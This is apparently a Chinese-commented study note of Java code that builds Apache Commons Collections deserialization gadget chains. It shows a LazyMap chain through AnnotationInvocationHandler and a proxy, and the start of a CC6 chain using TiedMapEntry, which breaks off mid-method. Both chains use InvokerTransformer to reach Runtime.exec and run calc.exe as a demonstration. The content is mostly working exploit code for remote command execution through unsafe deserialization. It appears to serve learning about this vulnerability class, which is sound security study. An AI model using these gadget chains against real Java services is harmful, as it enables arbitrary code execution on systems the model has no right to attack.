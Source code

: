 ```java
public static void LazyMap(String[] args) throws Exception {
    Transformer[] transformers = {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    HashMap<Object, Object> hashMap = new HashMap<>();
    hashMap.put("hello", "world");
    Map evilmap = LazyMap.decorate(hashMap, chainedTransformer);

    // LazyMap触发点
    // evilmap.get(1); // 随便get一个东西满足if (map.containsKey(key) == false)

    // AnnotationInvocationHandler 的invoke方法里(77 行) ： Object result = memberValues.get(member); 触发了get()方法
    // InvocationHandler需要用到动态代理的知识：
    // Proxy代理一个类,并且通过InvocationHandler.invoke调用所代理类的方法，所以我们要构建一个proxymap。

    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // getDeclaredConstructor 返回所有的构造器
    // getConstructor 只返回public的构造器
    Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, evilmap);

    // public static Object newProxyInstance(ClassLoader loader, Class<?>[] interfaces, InvocationHandler h) throws IllegalArgumentException
    // loader 所代理的类的ClassLoader； 所代理类的实现接口； 程序处理的类
    Map proxymap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    // 用evilmap的代理再次构造成可反序列化对象
    Object o = constructor.newInstance(Override.class, proxymap);

    Tools.unserialize(Tools.serialize(o));
}
```

cc6

```java
public static void study(String[] args) throws Exception {
    Transformer[] transformers;
    transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    HashMap<Object, Object> hashMap = new HashMap<>();
    Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(1));
    TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key"); // 这是一个值为"key"的key
    HashMap<Object, Object> expMap = new HashMap<>();
    expMap.put(tiedMapEntry, "value");  // 等于put("key","value"),只不过"key"绑了个hashmap(lazymap)

    hashMap.remove("key"); // expMap和hashMap(lazyMap)不同,expMap有key而hashMap没有
    // if (map.containsKey(key) == false)
```